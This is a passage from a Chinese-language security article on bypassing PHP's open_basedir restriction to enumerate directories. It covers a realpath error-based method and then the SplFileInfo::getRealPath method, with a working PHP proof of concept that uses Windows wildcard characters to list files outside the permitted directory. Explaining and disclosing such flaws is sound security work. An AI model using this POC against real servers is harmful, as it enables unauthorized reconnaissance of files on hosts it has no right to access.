 首先设置open_basedir为当前目录，并枚举d:/test/目录下的所有文件。将错误处理交给isexists函数，在isexists函数中匹配出目录名称，并打印出来。

执行可以看到：

![enter image description here](http://drops.javaweb.org/uploads/images/e67112518979b4d50fffadceee2ef4fad0f0fa04.jpg)

Open_basedir为c:\wamp\www，但我们列举出了d:/test/目录下的文件：

![enter image description here](http://drops.javaweb.org/uploads/images/4bf22cfab098de3e26e4860a406409294774384d.jpg)

当然，这是个很粗糙的POC，因为我并没有考虑到首字母相同的文件，所以这个POC只能列举首字母不同的文件。

如果首字母相同，我们只需要再枚举第二个字符、第三个字符依次类推，即可列举出目录中所有文件。

这个方法好处是windows下php所有版本通用，当然坏处就是只有windows下才能使用通配符，如果是linux下就只能暴力猜解了。

0x04 SplFileInfo::getRealPath列举目录
=================================

* * *

受到上一个方法的启发，我开始在php中寻找类似的方法。一旦realpath不能使用的情况下，也能找到替代方式。

我找到了新方法：[WooYun: php设计缺陷导致绕过open_basedir列举目录#1](http://www.wooyun.org/bugs/wooyun-2014-083453)，使用的方式是SplFileInfo::getRealPath。

SplFileInfo类是PHP5.1.2之后引入的一个类，提供一个对文件进行操作的接口。其中有一个和realpath名字很像的方法叫getRealPath。

这个方法功能和realpath类似，都是获取绝对路径用的。我们在SplFileInfo的构造函数中传入文件相对路径，并且调用getRealPath即可获取文件的绝对路径。

这个方法有个特点：完全没有考虑open_basedir。在传入的路径为一个不存在的路径时，会返回false；在传入的路径为一个存在的路径时，会正常返回绝对路径。

我们的realpath函数还是考虑了open_basedir，只是在报错上没有考虑周全导致我们能够判断某个文件是否存在。但我们可爱的SplFileInfo::getRealPath方法是直接没有考虑open_basedir，就能够判断一个文件是否存在。

那么，我给出一个POC：

```
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
$basedir = 'D:/test/';
$arr = array();
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789';
for ($i=0; $i < strlen($chars); $i++) { 
    $info = new SplFileInfo($basedir . $chars[$i] . '<><');
    $re = $info->getRealPath();
    if ($re) {
        dump($re);
    }
}
function dump($s){
    echo $s . '<br/>';
    ob_flush();
    flush();
}
?>

```
